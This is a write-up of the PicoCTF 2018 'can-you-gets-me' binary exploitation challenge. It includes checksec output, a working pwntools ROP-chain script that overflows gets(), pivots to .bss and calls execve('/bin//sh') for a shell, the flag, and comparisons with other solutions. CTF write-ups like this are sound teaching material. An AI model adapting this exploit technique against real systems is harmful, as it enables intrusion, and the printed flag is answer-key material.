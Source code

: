 # can-you-gets-me

This is a 650-point pwning problem from PicoCTF 2018 (level 3).

### Problem Description

Can you exploit the following [program](./gets) to get a flag? You may need to think return-oriented if you want to program your way to the flag. You can find the program in /problems/can-you-gets-me_0_8ac5bddeab74e647cd6d31642246a12a on the shell server. [Source.](./gets.c)

## Reconnaissance

This is a 32-bit ELF binary. Here's checksec run on the file:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   gets
```

This looks like a classic ROP problem. The executable is statically linked, so I have lots of gadgets to work with. ROPGadget finds 13,209 of them in fact.

Alright, I want to call `execve("/bin/sh",NULL,NULL)`. So I need to call `int 80` with `0xb` in `eax`, a pointer to "/bin/sh" in `edx`, NULL in `esi` and NULL in `edi`.

I looked for a number of ways to push `esp` in order to get a pointer to `/bin//sh` on the stack, but could not find one. Accordingly, I did a pivot to the `.bss` section, read `/bin//sh` to that location, and the rest of the ROP chain was straightforward after that.

```python2
from pwn import *

sh =  ssh(host='2018shell1.picoctf.com',\
		 user='<redacted>',\
		 password='<redacted>')

p = sh.process('/problems/can-you-gets-me_0_<redacted>/gets')

payload = "A"*28
INT_0x80_ADDR = 0x0806cd95
POP_EAX_ADDR = 0x080b84d6 # : pop eax ; ret
POP_EDX_ADDR = 0x0806f19a #: pop edx ; ret
POP_EBP_ADDR = 0x080483ca # : pop ebp ; ret
POP_EBX_ADDR = 0x080481c9 # : pop ebx ; ret
POP_ECX_ADDR = 0x080dece1 # : pop ecx ; ret

NEW_ROP_CHAIN_ADDR = 0x080ebdd0
NEW_ROP_STRING_ADDR = 0x080ebdb0
GETS_ADDR = 0x08048899

payload += p32(POP_EBP_ADDR)
payload += p32(NEW_ROP_CHAIN_ADDR)
payload += p32(GETS_ADDR)
payload += p32(NEW_ROP_STRING_ADDR)
payload += "\n"
p.send(payload)

payload2 = "/bin//sh"
payload2 += p32(0x0)
payload2 += "D"*24
payload2 += p32(POP_EBX_ADDR)
payload2 += p32(NEW_ROP_STRING_ADDR)
payload2 += p32(POP_ECX_ADDR)
payload2 += p32(0x0)
payload2 += p32(POP_EDX_ADDR)
payload2 += p32(0x0)
payload2 += p32(POP_EAX_ADDR)
payload2 += p32(0xb)
payload2 += p32(INT_0x80_ADDR)
payload2 += "\n"
p.send(payload2)

p.interactive()
```

And the flag is `picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cca0ace7}`.


### Comparison to Other Approaches

[EverTokki](https://ctftime.org/writeup/13864) creates a ROP chain that appears to have no null bytes. This write-up also reminded me that instead of moving `%esp` into another register to get a pointer to `/bin//sh`, I can also write `/bin//sh` to writable memory directly, using an instruction such as `mov [edx], eax`. [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/can-you-gets-me.md) pointed out to me that the `ROPGadget` tool that I've been using has the `--ropchain` flag, which could make my life easier by pointing out a set of gadgets that write things to memory and even generating most or all of the ROP chain. The other write-ups on CTFTime are variations on this theme, with the exception of [c0wb0yz_fr0m_h3x](https://github.com/MarcoGarlet/CTF-Writeups/blob/master/picoCTF2018/can-you-gets-me/exp.md), who makes the `.bss` section executable and executes shellcode there.
